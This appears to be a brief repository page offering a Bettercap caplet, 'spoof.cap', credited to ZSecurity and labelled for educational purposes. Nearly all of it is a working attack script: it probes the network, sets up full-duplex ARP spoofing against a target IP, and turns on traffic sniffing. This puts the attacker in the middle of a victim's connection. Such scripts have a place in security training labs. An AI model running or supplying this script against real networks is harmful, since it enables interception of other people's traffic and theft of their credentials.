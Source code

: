 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on                                                                                                               
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7 (target IP here) 
arp.spoof on 
net.sniff on`
